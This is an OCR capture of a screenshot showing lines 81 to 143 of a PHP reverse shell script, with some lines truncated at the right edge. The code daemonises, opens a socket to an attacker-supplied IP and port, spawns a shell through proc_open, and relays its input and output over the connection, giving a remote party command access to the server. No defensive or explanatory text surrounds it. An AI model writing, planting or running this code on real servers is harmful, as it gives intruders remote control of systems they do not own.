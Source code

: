 81 exit(1);
82 }
83
84 $daemon = 1;
85 } else {
86 printit("WARNING: Failed to daemonise. This is quite common and not fata
87 }
88
89 // Change to a safe directory
90 chdir("/");
91
92 // Remove any umask we inherited
93 umask(0);
94

95 //
96 // Do the reverse shell...
97 //
98
99 // Open reverse connection
100 $sock = fsockopen($ip, $port, $errno, $errstr, 30);
101 if (!$sock) {
102 printit("$errstr ($errno)");
103 exit(1);
104 }
105
106 // Spawn shell process
107 $descriptorspec = array(
108 0 => array("pipe", "r"), // stdin is a pipe that the child will read fr
109 1 => array("pipe", "w"), // stdout is a pipe that the child will write
110 2 => array("pipe", "w") // stderr is a pipe that the child will write
111 );
112
113 $process = proc_open($shell, $descriptorspec, $pipes);
114
115 if (!is_resource($process)) {
116 printit("ERROR: Can't spawn shell");
117 exit(1);
118 }
119
120 // Set everything to non-blocking
121 // Reason: Occsionally reads will block, even though stream_select tells us
122 stream_set_blocking($pipes[0], 0);
123 stream_set_blocking($pipes[1], 0);
124 stream_set_blocking($pipes[2], 0);
125 stream_set_blocking($sock, 0);
126
127 printit("Successfully opened reverse shell to $ip:$port");
128
129 while (1) {
130 // Check for end of TCP connection
131 if (feof($sock)) {
132 printit("ERROR: Shell connection terminated");
133 break;
134 }
135
136 // Check for end of STDOUT
137 if (feof($pipes[1])) {
138 printit("ERROR: Shell process terminated");
139 break;
140 }
141
142 // Wait until a command is end down $sock, or some
143 // command output is available on STDOUT or STDERR